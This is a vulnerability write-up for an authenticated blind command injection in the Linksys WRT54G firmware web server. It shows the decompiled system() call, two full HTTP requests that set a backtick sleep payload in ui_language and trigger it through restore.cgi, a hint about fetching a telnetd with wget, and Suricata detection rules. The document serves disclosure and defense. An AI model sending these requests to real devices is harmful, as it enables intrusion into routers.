 # Linksys WRT54G - v3.1

This write up will go over how I found an exploited a command injection vulnerability in a `Linksys WRT54G` Small Office / Home Office router.

I downloaded the firmware for `Linksys WRT54G` version `3.1` from here:

[https://downloads.linksys.com/downloads/firmware/1224638367382/FW_WRT54Gv4_4.21.5.000_20120220.bin](https://downloads.linksys.com/downloads/firmware/1224638367382/FW_WRT54Gv4_4.21.5.000_20120220.bin)

Note that this firmware file is from 2012. According to [this link](https://www.linksys.com/us/support-article?articleNum=291978), the end of life (EOL) date for this device was:

>Prior to 2012

Since this device has been EOL'd for **at least** eight years (if not more), I am publishing this write up without reaching out to the vendor since it is unlikely to be patched at this point.  If you are still using this equipment, valid countermeasures to protect aginst this vulnerability include changing the default credentials for your router. Suricata rules are also included at the bottom of this write up.

## Hunting for Command Injection

Next I extracted the squashfs filesystem from the `FW_WRT54Gv4_4.21.5.000_20120220.bin` file using `binwalk -eM FW_WRT54Gv4_4.21.5.000_20120220.bin`.

Before I begin command injection testing, I want to know whether or not the `telnetd` or `utelnetd` binaries exist on the firmware filesystem, so I do a quick `find . -iname "*telnet*"`.  I don't find any results, so I will have to fall back to the `/bin/sleep` methodology for command injection testing. This methodology focuses on timing differences when a `sleep` sub-command is injected into a call to `system`.

Opening up `/usr/sbin/httpd` in Ghidra, we can start to look for command injection vulnerabilities. I start with the `system` function and viewing all instances of this function in the binary:

!["System Calls"](images/0034-system-calls.png "System Calls")

The first few calls are located in a function called `do_upgrade_post`, which by reading through it we can infer that this is the function that handles the configuration restore feature at the url path `/restore.cgi`.  

!["Command Injection"](images/0034-command-injection.png "Command Injection")

The following code is particularly interesting:

```c++
puVar7 = (undefined *)nvram_get("ui_language");
uVar8 = 0;
if (puVar7 == (undefined *)0x0) {
  puVar7 = &DAT_0047a2b8;
}
snprintf(acStack88,0x40,"cp /www/%s_lang_pack/captmp.js /tmp/.",puVar7);
system(acStack88);
```

In other words, if we can control the value of the NVRAM parameter `ui_language`, we can exploit this vulnerability.

It turns out we can control this value without any filtering happening on the server.  The following HTTP request demonstrates setting a malicious value for `ui_language` and 'primes' the vulnerability:

```http
POST http://192.168.1.1/apply.cgi HTTP/1.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.67 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Content-Length: 682
Authorization: Basic YWRtaW46YWRtaW4=
Referer: http://192.168.1.1/apply.cgi
Host: 192.168.1.1

submit_button=index&change_action=gozila_cgi&submit_type=language&action=&now_proto=dhcp&daylight_time=0&lan_ipaddr=4&wait_time=0&need_reboot=0&ui_language=%60%2fbin%2fsleep%24%7BIFS%7D23%60&wan_proto=dhcp&router_name=asdf&wan_hostname=&wan_domain=&mtu_enable=0&lan_ipaddr_0=192&lan_ipaddr_1=168&lan_ipaddr_2=1&lan_ipaddr_3=1&lan_netmask=255.255.255.0&lan_proto=dhcp&dhcp_check=&dhcp_start=100&dhcp_num=50&dhcp_lease=0&wan_dns=4&wan_dns0_0=0&wan_dns0_1=0&wan_dns0_2=0&wan_dns0_3=0&wan_dns1_0=0&wan_dns1_1=0&wan_dns1_2=0&wan_dns1_3=0&wan_dns2_0=0&wan_dns2_1=0&wan_dns2_2=0&wan_dns2_3=0&wan_wins=4&wan_wins_0=0&wan_wins_1=0&wan_wins_2=0&wan_wins_3=0&time_zone=-08+1+1&_daylight_time=1
```

The value we have chosen is:
```bash
`/bin/sleep${IFS}23`
```

If invoked in the target `system` function, it will cause the system to sleep for 23 seconds before continuing processing the request and eventually responding.

If we run the prime request and immediately follow it with an exploit request, we can achieve command injection.  The exploit request is:

```http
POST http://192.168.1.1/restore.cgi HTTP/1.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.67 Safari/537.36
Content-Type: multipart/form-data; boundary=---------------------------169284500162711627955704791
Authorization: Basic YWRtaW46YWRtaW4=
Content-Length: 362
Referer: http://192.168.1.1/Backup_Restore.asp
Host: 192.168.1.1

-----------------------------169284500162711627955704791
Content-Disposition: form-data; name="submit_button"

Backup_Restore
-----------------------------169284500162711627955704791
Content-Disposition: form-data; name="restore"; filename="WRT54GV2_v4.21.5.cfg"
Content-Type: application/octet-stream

-----------------------------169284500162711627955704791--
```

Pay attention to the length of time it takes for this request to complete.  The request normally takes 5-6 seconds to complete; if you run the 'prime' request first, that length of time will extend past 23 seconds to between 28-30 seconds.  This is because `sleep 23` is being passed along to the `system` function and the kernel is subsequently waiting 23 seconds to resume processing.

## Analysis
Both requests are authenticated and the exploit requires two web requests.  In reality, this is probably not a very practical exploit.  Even if the default credentials are set at `admin:admin` and you can make the two web requests, there is no easy way to gain an interactive shell since the prerequisite binaries for the telnet daemon are not present.  Also since this command injection does not return any output ("blind" command injection), it is not useful for retrieving data from the device.  One could conceivably compile their own busybox `telnetd` binary and retrieve it over HTTP using `wget` (which is installed in the firmware at `/usr/bin/wget`).  Keep in mind the `ui_language` parameter expects no space characters, and the command injection seems to fail if any space characters are present in the payload.  Use `${IFS}` in place of spaces.

## Suricata Rules to Protect Yourself

### Suricata 5.0

```
alert http any any -> $HOME_NET any (msg:"ET EXPLOIT Linksys WRT54G Version 3.1 Command Injection Attempt"; flow:established,to_server; http.method; content:"POST"; http.header; content:"Authorization|3a 20|Basic|20|"; http.uri; content:"/apply.cgi"; startswith; http.request_body; content:"change_action=gozila_cgi"; fast_pattern; content:"submit_type=language"; content:"&ui_language="; pcre:"/^[(?:\x60|%60)(?:\x27|%27)]/R"; classtype:attempted-admin; sid:1; rev:1;) 
```

### Suricata 4.0

``` 
alert http any any -> $HOME_NET any (msg:"ET EXPLOIT Linksys WRT54G Version 3.1 Command Injection Attempt"; flow:established,to_server; content:"POST"; http_method; content:"Authorization|3a 20|Basic|20|"; http_header; content:"/apply.cgi"; http_uri; depth:10; content:"change_action=gozila_cgi"; http_client_body; fast_pattern; content:"submit_type=language"; http_client_body; content:"&ui_language="; http_client_body; pcre:"/^[(?:\x60|%60)(?:\x27|%27)]/PR"; classtype:attempted-admin; sid:1; rev:1;)
```

Thanks to [@zoomequipd](https://twitter.com/zoomequipd) for the rules.